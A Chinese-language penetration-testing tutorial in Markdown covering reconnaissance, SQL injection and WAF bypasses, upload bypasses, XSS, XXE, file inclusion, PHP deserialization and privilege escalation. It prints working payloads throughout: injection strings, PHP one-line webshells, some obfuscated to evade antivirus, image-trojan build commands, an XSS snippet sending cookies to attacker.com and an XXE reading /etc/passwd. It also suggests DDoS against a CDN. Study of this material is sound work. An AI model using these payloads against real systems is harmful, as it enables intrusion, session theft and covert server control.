

# 信息收集

渗透测试和渗透攻击的第一步是收集目标信息，俗称踩点。信息收集得越全面，就越容易找到防御薄弱点。最重要的信息是**域名与IP地址**、**端口与服务**

例如，假设搜集了一家名叫Polygon的企业（公司名、域名、IP地址等信息均为虚构，与现实中的企业、网站无关），搜集过程如下：



这个例子中，首先找到`service.polygon.com`、`passport.polygon.com`等属于该公司的域名、IP地址。每个域名和IP地址对应该公司的一台主机，或者多台主机，又或是该公司租用的云服务器

然后，探测每个地址提供的服务。在`service.polygon.com`，发现22端口开放，提供SSH服务；443端口开放，提供HTTP服务，并识别到它使用的服务器、开发语言、后端数据库、CMS等信息；其他各地址也同理探测

最后，梳理资产，剔除不属于目标的资产，并筛选出高价值资产。至此，信息收集暂告一段落。信息搜集的作用有两方面

1. **找到攻击点位**：后续攻击可以针对搜集到的服务展开。首先可以找服务有没有N-day漏洞，然后可以从开放的服务寻找高发漏洞（比如，登录界面可能有弱口令，api可能有越权、信息泄露，上传页面可能有文件上传漏洞）
2. **提高攻击效率**：知道服务用了什么组件，就可以专注尝试该组件的漏洞。例如，服务器用PHP开发，就不可能存在Java反序列化漏洞；后端是MySQL数据库，就不需要测试PostgreSQL的注入语句

## 域名、IP地址

### 原理

- **相似性**：同一个机构的网络资产很可能有共同特征。通过公开渠道找到一个资产，就能找到许多相似的网站
  - **子域名**：组织通常以主域名为中心，扩展多个功能性子域名（如`api.example.com`、`admin.example.com`）。可通过DNS记录、爆破等方式寻找子域名
  - **ICP备案、Whois查询**：我国网站均需要备案，可通过ICP备案信息查询同一机构的其他网站；whois查询可以查到域名注册者信息，也有相似效果
  - **C段、旁站**：一个组织常将多个服务部署在同一网段（如`/24`网段，俗称C段）；部署在云服务器上的网站，有可能多个站点共享一个IP地址，称旁站
  - **特征指纹**：同一机构的资产可能具有相同图标（`favicon.ico`），可能有相同关键字（如公司名、企业邮箱地址）
  - **SSL证书**：可分析SSL证书的Subject Alternative Name（SAN）字段
  - **相似域名**：企业可能注册多个拼写相近、品牌相关的域名，如百度除了`baidu.com`外还注册了`baidu.com.cn`（但相近域名大多未投入使用，价值不高）
- **关联性**：同一机构的网络资产之间即使不相似，也很可能有关联
  - **页面链接**：站点内页面可能包含其他资产的超链接，可以收集页面中的超链接并分析其指向的域名和路径
  - **Javascript**：前端JS可能包含后端接口地址、开发域名、第三方服务或调试路径
  - **社会学关联**：子公司的网站、乙方的网站（例如目标组织委托乙方设计办公系统，系统部署在乙方的服务器上，但系统内的数据都是目标组织的）
- **小程序、APP**

### 方法与工具

- **网络空间测绘工具**：俗称”黑暗搜索引擎“，可以搜索目标的开放端口、指纹等许多网络资产信息。信息搜集阶段，可以用它查询子域名、ICP备案等
  - 国内：[鹰图平台](https://hunter.qianxin.com/)、[FOFA](https://fofa.info/)、[钟馗之眼](https://www.zoomeye.org/)、[Quake](https://quake.360.net/quake/#/index)、[微步](https://x.threatbook.cn)
  - 国外：[Shodan](https://www.shodan.io/)（[语法参考](https://help.shodan.io/the-basics/search-query-fundamentals)）、[VirusTotal](https://www.virustotal.com/gui/home/upload)
- **搜索引擎**：搜索引擎可以检索目标网站公开的页面，其中除了常规页面外，还有机会找到配置文件、后台登录页面等。也有机会找到各种社会学信息，如员工的邮箱、子公司等
- **提取链接**：`JSFinder`
- **子域名爆破**

### CDN绕过

若网站有多个IP地址，则网站很可能使用了CDN（Content Distribution Network）。通常，CDN节点开放的端口少、防护措施强，因此要尽量绕过CDN节点寻找真实IP地址

- **相关域名**：相关站点经常在同一IP段，可尝试访问其他资产的C段
- **邮件服务**：网站发出邮件不可用CDN，可从该站点发出的邮件（比如验证邮件、RSS邮件订阅）分析
- **国外地址请求**：一般不会为海外地址部署CDN，从国外访问到的可能是真实地址
- **DNS历史记录**：如[IP地址查询](https://site.ip138.com/)，找启用CDN之前的ip
- **DDoS攻击**：打光网站CDN流量

找到疑似真实IP后，首先可以多方法互相验证；然后可以尝试改Hosts，能正常访问就说明找到真实IP地址了

## 端口、服务

找到真实IP地址后，就可以探测哪些端口开放、各端口运行什么服务

1. 测绘工具
2. 扫描工具：nmap，masscan，fscan等

访问各端口，通过服务器返回数据的特征识别服务器使用了哪些应用程序（服务器软件、中间件、CMS等），例如服务器返回Apache的默认404页面就可以推断服务器使用Apache；部分资源路径包含`wp-content`，可以推断服务器使用Word Press。这种方法叫做**指纹识别**

**手工识别**

- 操作系统
  - 大小写敏感：Windows一般不区分大小写；Windows WSL和Windows 10以上版本可以配置区分大小写；Linux区分；MacOS默认不区分，但可以配置
  - Ping数据包：Windows的TTL默认128，Linux取决于版本，但经常是64
- 服务器
- 数据库
- 编程语言

**指纹识别工具**：nmap的服务识别就是一种指纹识别；wappalyzer（浏览器插件），御剑，[webanalyzer](https://github.com/webanalyzer/rules)，[whatweb](https://whatweb.net/)等工具可用于识别网页服务器的指纹

## 辅助信息

网络上很可能有许多不在目标服务器上，却能帮助进行渗透的信息，比如百度文库有员工上传的内部资料、微信公众号文章透露了人员组成等

有没有这类信息、它们有多大作用都是未知数，但不能完全忽略或是放弃寻找这些信息

## 梳理资产

以上方法如果找到了数量庞大的资产（这是非常有可能的！），就要从中筛选出“值得挖”的资产——当然，价值判断取决于渗透的目的，但一般来说，业务越重要、功能越多、系统越新，越有可能挖出高价值的漏洞

# Web漏洞基础

## SQL注入

### 基础

1. **寻找注入点**：在文本后面加入单引号、双引号、括号、双括号，若有报错则可能存在SQL注入。所有和数据库有关的地方都可能出现注入，GET参数、POST参数、HTTP头、URL都不要错过

2. **闭合语句**：构造合法语句。例如，`id=1`能正常查询，加上单引号`id=1'`报错，尝试后发现`id=1')#`又能正常查询了,可以推测，服务器的查询语句应该类似`SELECT * FROM users WHERE id=('$id')`，`')`闭合了开括号、单引号，`#`注释了后面“多余”的`')`，下一步就可以在井号之前插入其他搜索条件，或者Union查询。闭合语句需要结合经验尝试单引号、双引号、反引号、括号等
   - 注意，若注入点是用引号括起来的数字，比如`id='1'`，MySQL会尝试`'1'`转换为数字再查找。因此即使引号没匹配`id=('1 or 1=1')`、被转义`id='1\'`，都能看似正常的返回。不要被骗

3. **构造注入语句**：最基础的注入语句是Union注入，即通过联合查询获取额外信息

```sql
SELECT * FROM users WHERE id='1' ORDER BY 4;          # 判断数据列数
SELECT * FROM users WHERE id='1' UNION SELECT 1,2,3;  # UNION查询
```

4. **获取数据**：一般是先获取表名、各个表的字段名，然后爆破数据。具体方法因数据库而异，可参考Web漏洞利用部分

### 盲注

web应用进行数据库操作之后可能不会回显，比如只显示“查询成功”或“查询失败”，甚至连成功与否都不告诉用户。这种情况下通过注入获取信息的方法就叫盲注。参考：[一文搞定MySQL盲注](https://www.anquanke.com/post/id/266244)

#### 布尔盲注

1. 找注入点
2. 构造条件。这个条件的真假影响回显。例如若payload`' or '1'='1`回显“查询成功”，`' or '1'='2`回显“查询失败”，这个payload就是合格的条件
3. 将条件替换成注入的数据，例如下面的语句。替换参数，不断尝试直到爆破出整条数据

```sql
SELECT * FROM users WHERE id='' or length(database()) < 16;
SELECT * FROM users WHERE id='' or substr(database(), 1, 1) = 'a';
```

常用的字符串截取方法：

```sql
SELECT substr('a', 1, 1), mid('a', 1, 1), right('a', 1), left('a', 1);
regexp, rlike, trim, insert, like;
```

#### 延时盲注

若完全没有回显，可以利用延时判断条件真假，若查询成功则会延迟一段时间再响应（注意：sleep函数找到多少条结果就会延迟多少次，比如`sleep(0.1)`搜索到20条结果就会延迟$0.1 \times 20 = 2$秒，可以用这个方法判断表的行数）

```sql
SELECT name FROM users WHERE id='' UNION SELECT IF((1=1), sleep(5), 0);
SELECT name FROM users WHERE id='' UNION SELECT CASE WHEN (1=1) THEN sleep(5) ELSE 0 END;
SELECT name FROM users WHERE id='' UNION SELECT sleep(5*(1=1));
```

网站可能禁`IF`等关键字，按需灵活选取。`sleep`也有以下替代方法（**以下方法都要注意不要引起DOS**）：

```sql
SELECT benchmark(1000000, sha1('a'));    # 重复执行sha实现延时
SELECT count(*) FROM users A, users B;   # 笛卡尔积延时
SELECT rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');  # 正则状态机复杂匹配
```

#### 报错盲注

若服务器没有回显，又禁用了延时盲注的关键字，可以尝试构造SQL ERROR。查询成功、查询无结果、SQL报错可能是三套处理逻辑，只要报错的结果和另外两个有区别就能强行获得回显

```sql
SELECT exp(709 + (1=1));
SELECT cot(1 - (1=1));
SELECT pow(1 + (1=1), 99999);
```

### 其他注入手段

#### 文件操作

以下代码可以读写文件，不过仅限`SELECT @secure_file_priv;`指定的目录

```sql
SELECT '<?php @eval($_POST[aaa]);?>' INTO OUTFILE 'shell.php'
SELECT load_file('backup.bak')
```

#### 报错注入

如果服务器显示错误信息，可构造查询语句使数据直接显示在错误信息中。例如，向MySQL 5.1以上版本的`updatexml(XML_document, XPath, new_value)`和`extractvalue(XML_document, XPath)`函数传递不合法XPath，报错信息中包含XPath的值。下面例子用`~user_name`作为XPath，XPath不能包含`~`，因此必定报错，报错信息中包含了用户名

```sql
SELECT updatexml(1, concat(0x7e, (select user())), 2)
```

#### 堆叠注入

一次注入多条语句。不过数据库API不一定支持，而且一般看不到回显，很难确认操作是否成功

```sql
SELECT * FROM users WHERE id=1; drop users();
```

#### 二次注入

例如，注册用户名`admin' -- `，注册时没有发生注入；但是当数据库读取用户名做进一步操作时，开发者有可能误以为从数据库取得的数据是干净的，没有清洗，因此引发注入。比如该用户修改密码的SQL语句可能如下，实际上修改了admin用户的密码

```sql
UPDATE users SET pwd='pswd' WHERE name='admin' -- '
```

### 防护

- **预编译**、**参数化查询**：将语句和数据分离。一般是安全的，但表名、列名不能被占位符替代，如果允许拼接可能也有问题
- **过滤**
  - **`addslashes`**：PHP的`addslashes`函数将单引号、双引号、反斜杠、NULL转义为`\', \", \\, \0`。有的服务器会配置**魔术引号**（Magic Quotes），自动将外部来源（HTTP参数、读取文件、读数据库）的文本用反斜杠转义。本意并不是防SQL注入的，只是恰好起到了一点效果
  - **关键字过滤**：禁用空格、引号、注释等特殊符号，禁用`UNION`等常用于渗透攻击的关键字。通常WAF会检测这些关键字并拦截
- **内容检查**：检查参数内容，比如只允许用整数查询，或者检测到不正确日期格式就拒绝请求

### 绕过

编码：使用特殊编码、特殊转义方式，绕过网站的转义和关键字检查

- **宽字节注入**：对于使用反斜杠（`0x5c`）转义的防护手段，可以在合适位置插入一个字节，让它“吞掉”反斜杠
  - 若服务器使用utf-8、数据库使用GBK，注入`%df' or 1=1`，经过魔术引号变为`%df\' or 1=1`；前两个字节`%df%5c`被数据库当成一个gbk字符`運`，反斜杠被”吞掉“。详见[宽字节注入深度讲解](https://cs-cshi.github.io/cybersecurity/%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5%E6%B7%B1%E5%BA%A6%E8%AE%B2%E8%A7%A3/)。第一个字节可以是`0x81~0xa0, 0xa8~0xfd`的任意一个
  - 若使用utf-8编码，注入`%c0' or 1=1`，转义后前两字节为`%c0%5c`，被当作一个字符（因为UTF-8是变长编码，用最高几个比特辨认字符使用多少字节，`%c0`前3比特为`0b110`，被当作是一个长2字节的字符，详见[维基百科](https://en.wikipedia.org/wiki/UTF-8#Description)）。一般称作**Overlong Encoding**漏洞
- **二次编码注入**：数据可能多次解码，比如JSON将`\u0065`解码为`e`，XML将`&#101;`解码为`e`，多做一次”不必要“的编码有机会绕过关键字过滤
- **替换符号**：逻辑绕过（尽量不用被过滤的关键字）+ 同义绕过（使用相同含义的其他写法）

## 文件上传

网站若未对用户上传的文件类型、内容或执行权限做严格限制，攻击者可以上传恶意文件（如 WebShell、病毒等）进行攻击

### 防护

- **文件校验**：检验文件合法性
  - **简单校验**：利用HTML表单、javascript、MIME类型校验

  - **文件名校验**：检测扩展名并进行黑名单 / 白名单过滤。更严格一点的会把文件名也给改了，比如改成`时间戳.jpg`

  - **文件头Magic Number**：读取文件前几个字节判断文件格式，如JPEG文件应以`FF D8 FF`开头，PNG为`89 50 4E 47`，GIF为`GIF89a`

- **存储隔离**：放在静态资源目录，禁止解析

- **图像处理**：进行图像处理后重新保存

### 绕过

#### 文件校验绕过

1. **冷门后缀**：php可能解析`php5` / `pht` / `phtml` / `shtml` / `pwml`；jsp可能解析`jspf` / `jspa` / `jsw` / `jsv` / `jtml` 等后缀；asp支持 `asa` / `asax` / `cer` / `cdx` / `aspx` / `ascx` / `ashx` / `asmx` / `asp{80-90}` 等后缀；`vbs, sh, reg, com, cgi, exe, cfc, cfm`等后缀也可能可以利用。较新版本的服务器基本不可能成功
2. **系统命名绕过**：Windows系统可尝试`shell.php.`（末尾句点）、`shell.php%20`（末尾空格）、`shell.php:1.jpg`（冒号）、`shell.php::$DATA`（文件流）；Linux系统可尝试`index.php/.`、`./aa/../index.php/.`
3. **`.user.ini`文件**：适用于PHP 5.3以上，需要服务器处于CGI / Fast CGI模式，且上传目录下有PHP脚本，比如index.php。构造配置文件`auto_prepend_file=01.gif`，访问同一目录的php脚本时自动运行`01.gif`
4. **`.htaccess`文件**：适用于apache服务器，需要服务器配置`AllowOverride`（也有说法称需要开启`rewrite`模块、需要Thread Safe版本PHP）

```htaccess
# 将所有文件名包含pwn的文件作为php解析
<FilesMatch "pwn">
    Sethandler application/x-httpd-php
</FilesMatch>
```

#### 图片木马

包含恶意代码的图片俗称图片马。恶意代码插入于图片文件结束标记之后，或EXIF元数据，不影响图片显示；但将图片马作为代码执行时，比如用文件包含漏洞，解释器解析执行`<?php ?>`或`<% %>`中的代码。和图种的原理类似

1. 随便准备一张图片`a.jpg`
2. 构造恶意代码。通常用“一句话木马”，即非常简短的木马，其隐蔽性较好。后续可用它作为跳板上传大木马
   - PHP：`<?php @eval($_GET['cmd']); ?>`
   - aspx：`<%@ Page Language="Jscript"%>`
   - 这么直白的写法肯定会被杀毒软件发现，需要结合代码混淆实现免杀。可参考[Webshell集合](https://github.com/tennc/webshell)
3. 将图片和代码拼接到一起。或者用Photoshop、PIL等将木马写入图片EXIF

```shell
cat a.jpg shell.php > shell.jpg           # Linux
copy a.jpg /b + shell.php /a > shell.jpg  # Windows
```

## 跨站脚本（XSS）

跨站脚本（Cross-Site Scripting，简称XSS。第一个字母改为X以避免和样式层叠表CSS冲突）是网站显示用户输入（比如，论坛发帖）时，字符串被浏览器误当作代码解析执行从而产生危害。例如下面的文本若被当作javascript执行，将在用户不知情之下将Cookie发送到攻击者服务器，攻击者可以用它进行会话劫持攻击

```html
<script>
    var img = new Image();
    img.src = "http://attacker.com/steal?cookie=" + encodeURIComponent(document.cookie);
</script>
```

XSS只能影响到用户前端，无法直接作用于服务器

- **反射型**：恶意代码写在URL内，如`example.com?q=<script>alert(1);</script>`，打开此链接便收到攻击。易受攻击的功能有搜索等
- **存储型**：恶意代码存储在服务器中，打开对应页面便受到攻击。易受攻击的功能有评论、文章、用户个人资料等
- **DOM型**：污染动态加载的数据，则浏览器解析数据时就会受到攻击。易受攻击的功能有前端渲染搜索、聊天等

可以执行恶意代码的HTML标签有：

```html
<script>alert();</script>

<a href="javascript:alert();">Click Me</a>
```

### 防护

- 转义
- 输入校验
- `httponly`

### 绕过

安全的转义方式（如`htmlspecialchars`）是没有办法绕过的，除非网页结构特殊（如允许用户操作`a[href]`，或者包含了一个具有XSS漏洞的网页。这两种情况可以不定义新HTML标签、不更改给现有标签的属性而实现XSS）。不过，用户输入和回显形式多样，开发者可能会误以为某些输入是安全的所以不转义，或者干脆忘记转义。渗透测试就是要寻找这些不起眼的用户输入和显示，比如HTTP头、`input[type=hidden]`等隐藏元素

首先试着注入单引号、双引号、HTML标签、URI转义、HTML实体，如`1'2"<b>&#x61;&#x3a;%41</b>`如果都被转义就可以找下一个目标了

## 跨站请求伪造（CSRF）

跨站请求伪造（Cross-Site Requet Forgery，CSRF）利用用户浏览器的Cookie，以用户名义在目标网站上执行攻击操作。例如：

1. 用户登录银行网站，会话保持有效
2. 用户访问攻击者的恶意页面，该页面隐藏一个自动提交的请求，如`"`
3. 用户的浏览器自动携带Cookie发送请求，银行网站误认为是合法操作，执行转账

防御措施通常有：

- CSRF Token
- SameSite Cookie
- 验证Referer

## 远程代码执行（RCE）

远程代码执行（Remote Code Execution，RCE），也叫任意代码执行（Artibrary Code Execution，ACE）。网站使用`eval`等函数时，若用户可控制参数，则可以执行任意代码

过滤绕过：https://wiki.wgpsec.org/knowledge/ctf/exec.html

使用其他漏洞也有可能实现任意代码执行，比如用文件上传漏洞传一个WebShell，自然能执行任意代码了。但这种间接实现RCE的通常不叫作RCE漏洞

## 文件包含

开发者常通过函数（如PHP的`include`、`require`）将其他文件的内容引入当前脚本，例如加载配置文件、复用代码模块。当**用户输入用于文件路径**且未做严格过滤时，攻击者可以篡改路径，包含非预期的文件（如系统文件、远程脚本）

- **本地文件包含**（Local File Inclusion，LFI）：包含服务器本地文件，可用于窃取敏感信息，或配合文件上传漏洞执行任意代码
- **远程文件包含**（Remote File Inclusion，RFI）：包含远程服务器文件（需要服务器开启`allow_url_include`配置），直接执行恶意代码

**LFI利用方式**

- 文件上传漏洞
- PHP封装协议
- 日志文件：如果服务器日志保存UA等信息，甚至可以将webshell注入到日志，再包含日志文件
- 临时文件：POST方法上传`multipart/form-data`，PHP会将文件存为临时文件，位于`php.ini`指定的`upload_tmp_dir`，默认为`/tmp`，文件名是`php + 4或6位随机字母/数字`，如`/tmp/phpY1WgtV`
  - 在一次请求上传并利用临时文件：需要能够猜到临时文件名，比如使用通配符调用文件。CTF中有可能，实际业务中没有可行性
  - 让PHP崩溃阻止删除临时文件：难度较大，取决于PHP版本

## 逻辑漏洞

逻辑漏洞指业务逻辑的漏洞，它不会直接引起安全问题，但往往可以成为攻击切入口

### 越权访问

**绕过访问控制逻辑**，进行未授权的操作。可以细分为**水平越权**，使用A账号获取、操作B账号的数据；**垂直越权**，使用低权限账号进行高权限操作

发现数据包中传输用户信息（用户编号、用户组编号等）时，可以尝试修改这个值进行水平越权。如果知道高权限用户的数据包结构，还可以尝试垂直越权

### 支付漏洞

绕过业务逻辑，影响业务数据。如修改优惠券金额、预测验证码、覆盖注册等

### 敏感信息泄露

包括但不限于：用户名、口令、个人数据（如姓名，住址，电话等）。代码、配置、日志、备份中都可能包含敏感信息

## 反序列化

序列化和反序列化就是将对象转换为文本，以及将文本转换回对象的功能，它常用于对象的保存和传输。若Web应用未执行严格过滤，可以构造恶意数据，在反序列化过程中执行危险操作

解析认证token、Session，传输json和XML、使用RMI协议时都可能有反序列化漏洞

## XML外部实体（XXE）

XML外部实体（XML eXternal Entity）可以引用外部数据，例如文件系统中的文件、互联网文件等。若XML解析器配置不当，可能引发LFI、RFI、SSRF等漏洞

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
    <!ENTITY foo SYSTEM "file:///etc/passwd">
    <!ENTITY % file SYSTEM "file:///var/www/html/upload/evil.dtd">
]>
<!-- 引入外部实体foo，并从文件导入DTD（文件中可以包含恶意实体） -->
<x>&foo;</x>
```

若服务器配置允许，上面例子里的文件路径可以换成http协议，php封装协议，甚至`expect://<指令>`

## 服务器端请求伪造（SSRF）

服务器端请求伪造（Server-Side Request Forgery，SSRF）是攻击者利用服务器发出请求，访问本不该能访问的信息（比如内网）的安全漏洞。容易出现SSRF漏洞的应用有通过URL上传图片、在线翻译等

# Web漏洞利用

## SQL注入

https://www.geekby.site/2021/01/sql%E6%B3%A8%E5%85%A5%E7%9B%B8%E5%85%B3%E7%9F%A5%E8%AF%86%E6%95%B4%E7%90%86/

https://wiki.wgpsec.org/knowledge/web/sql_injection.html

4. - 判断数据库类别：https://websec.readthedocs.io/zh/latest/vuln/sql/dbident.html
   - 数据库管理系统信息：版本`version()`，用户名`user()`，数据库名`database()`，操作系统`@@version_compile_os`
   - 数据库结构：MySQL等数据库将结构信息存在`information_schema`数据库中，可跨库查询（一般需要较高权限）

| 表名       | 字段名                                  | 包含信息                             |
| ---------- | --------------------------------------- | ------------------------------------ |
| `schemata` | `schema_name`                           | 数据库名                             |
| `tables`   | `table_name, table_schema`              | 表名，以及该表所属数据库名           |
| `columns`  | `column_name, table_name, table_schema` | 字段名，以及该字段所属表名、数据库名 |

### 绕过技巧

虽然写网站的程序员很少用关键字过滤（写网站的人一般用参数化查询一劳永逸；不会用参数化查询的人大概也不懂关键字过滤），但WAF等防护系统会采用特征识别危险请求。防护系统不能影响正常业务，识别的关键字肯定是有限的

- [SQL注入绕过速查表](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E9%80%9F%E6%9F%A5%E8%A1%A8/sql%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87%E9%80%9F%E6%9F%A5%E8%A1%A8.md)
- https://websec.readthedocs.io/zh/latest/vuln/sql/ref.html#tricks

```sql
-- 空格过滤：注释/**/、其他空白符。参见上面的速查表链接
-- 空格过滤：浮点数、括号、反引号（表名、列名可用反引号括起）
SELECT name FROM users WHERE id=1e0union(select`pw`from`users`where(id=1));

-- 引号过滤：数字绕过(例子中数字是admin的编码); and,or过滤：||, &&绕过。&记得转义成%26
SELECT * FROM users WHERE id=-1||name=0x61646d696e;

-- 函数式编程绕过各种运算符。下面例子判断database()第一个字符码值是否大于64
SELECT * FROM users WHERE id=-1||least(substr(database(),1,1),'a')like'a';

-- 闭合引号、括号绕过注释
SELECT * FROM users WHERE id=('0')union(select'a',database(),'b') LIMIT 0,1;

-- Join查询绕过逗号
SELECT id, name FROM users WHERE id="0"union select * from ((select 1)A join (select 2)B);

-- substr和mid函数用from for代替逗号
SELECT * from users WHERE id=-1 || substr(database() from 1 for 1)='a';
```

### MySQL

参考：https://www.cnblogs.com/20175211lyz/p/12358725.html

**数据库名**

```sql
# MySQL
SELECT schema_name FROM information_schema.schemata;
```

**表名**

```sql
# MySQL
SELECT table_name FROM information_schema.tables WHERE table_schema = 'db_name';
# MySQL 5.6+
SELECT table_name from mysql.innodb_table_stats WHERE database_name = database();
# MySQL 5.7.9+
# 包含in
SELECT object_name FROM `sys`.`x$innodb_buffer_stats_by_table` where object_schema = database();
SELECT object_name FROM `sys`.`innodb_buffer_stats_by_table` WHERE object_schema = database();
SELECT TABLE_NAME FROM `sys`.`x$schema_index_statistics` WHERE TABLE_SCHEMA = database();
SELECT TABLE_NAME FROM `sys`.`schema_auto_increment_columns` WHERE TABLE_SCHEMA = database();
# 不包含in
SELECT TABLE_NAME FROM `sys`.`x$schema_flattened_keys` WHERE TABLE_SCHEMA = database();
SELECT TABLE_NAME FROM `sys`.`x$ps_schema_table_statistics_io` WHERE TABLE_SCHEMA = database();
SELECT TABLE_NAME FROM `sys`.`x$schema_table_statistics_with_buffer` WHERE TABLE_SCHEMA = database();
# 通过表文件的存储路径获取表名
SELECT FILE FROM `sys`.`io_global_by_file_by_bytes` WHERE FILE REGEXP database();
SELECT FILE FROM `sys`.`io_global_by_file_by_latency` WHERE FILE REGEXP database();
SELECT FILE FROM `sys`.`x$io_global_by_file_by_bytes` WHERE FILE REGEXP database();
# 通过performance schema
SELECT object_name FROM `performance_schema`.`objects_summary_global_by_type` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_handles` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_io_waits_summary_by_index_usage` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_io_waits_summary_by_table` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_lock_waits_summary_by_table` WHERE object_schema = DATABASE();
```

**列名**

```sql
# mysql
SELECT column_name FROM information_schema.columns
WHERE table_name="table" AND table_schema="db_name";
```

特殊：无列名注入

```sql
SELECT a FROM (select 1 `a`, 2 `b` union select * from `test_table`)x;

# 无逗号、使用join的版本
SELECT a FROM (
    (select * from (select 1 `a`)p join (select 2 `b`)q where 0)x
    union
    select * from test_table
)x;
```

## 反序列化

### PHP

#### 简介

PHP的`serialize`函数将对象转换为字符串，其中包括了对象的类名、属性名和属性值；`unserialize`函数将字符串转换回对象

```php
class Connection {
    # 属性
    protected $db;
    private $user, $pass;
    # 方法
    private function connect(){
        $this->db = new PDO('mysql:host=localhost;dbname=test', $this->user, $this->pass);
    }
    # 魔术方法
    public function __construct($user, $pass){
        $this->user = $user;
        $this->pass = $pass;
    }
    public function __sleep(){
        return array('user', 'pass');
    }
    public function __wakeup(){
        // this->connect();
        echo "wakeup\n";
    }
    public function __destruct(){
        $this->db = null;
    }
}

$conn = new Connection("John Doe", "p@ssword");
echo serialize($conn);
'O:10:"Connection":2:{s:16:"Connectionuser";s:8:"John Doe";s:16:"Connectionpass";s:8:"p@ssword";}'
```

序列化字符串中，

- `O`：表示这是一个对象（数组则是A）
- `10:"Connection"`：类名长度为10，值为`Connection`
- `2`：有2个属性
- `s:16:"Connectionuser"`：第一个属性名，它是字符串（`s`），长度为16，名为`Connectionuser`（private属性名会加上一些别的东西，8.2版本是类名，其他版本也有加空字节的）
- `s:8:"John Doe"`：第一个属性值。含义同上

`__wakeup`，`__destruct`都是与反序列化漏洞强相关的魔术方法，反序列化必定调用它们；其他魔术方法也可能被调用。假如`__wakeup`中有危险代码，或服务器用反序列化得到的对象进行危险操作，控制序列化字符串就能进行攻击了。不过，开发者不太可能犯这么大的错，一般需要用后面几节的技术

#### POP链

面向属性编程链（Property-Oriented Programming Chain，也叫Gadget Chain）

#### phar文件

phar文件是PHP代码和资源的压缩包，其中以序列化形式存储了phar元数据。PHP以`phar://`封装协议访问phar文件时会反序列元数据。结合文件上传漏洞 + 可以控制文件名的文件操作（例如`example.com/download?file=phar://phar.gif`）就能利用反序列化攻击

# 后渗透

[GTFOBins](https://gtfobins.github.io/)收录了许多用Linux指令绕过操作系统安全策略的方法

## SUID

SUID是“set uid ID upon execution”的缩写。用户运行具有SUID的程序时，会暂时获得文件所属用户的权限，比如更改密码的程序`/usr/bin/passwd`拥有者是root，且具有SUID，普通用户运行此程序时可以暂时获得root权限，修改密码文件`/etc/shadow`，但用正常方法就无法篡改`/etc/shadow`

```bash
sudo -l  # 查看当前用户能sudo的指令
find / -perm -u=s -user root -type f 2>/dev/null  # 查找SUID指令
```

能用SUID提权的指令有：wget

## webshell

### php

```php
# 基础webshell
eval($_GET['cmd']);

# 用字符串操作隐藏危险函数assert。其他类似方式：preg_replace, str_rot13
$a = str_replace('ass*e**rt', '*', '');
$a($_GET['kqbnjf']);

# 用php特性做字符串操作，隐藏危险函数
echo ~('和'[2]);     # 打印s。和的utf-8编码第三个字节是0x8c，取反得到0x73，正是s的编码
$x = gettype([])[0]; # gettype([]) = 'array'，因此给$x赋值为'a'
echo ++$x;           # 打印b。

# 动态传入危险函数
$a = $_GET['xymhwv'];
$a($_GET['ehnzmq']);
```

# 其他

## 转义

URI、HTML、SQL

php: `htmlspecialchars`；mysqli：`mysqli_real_escape_string`
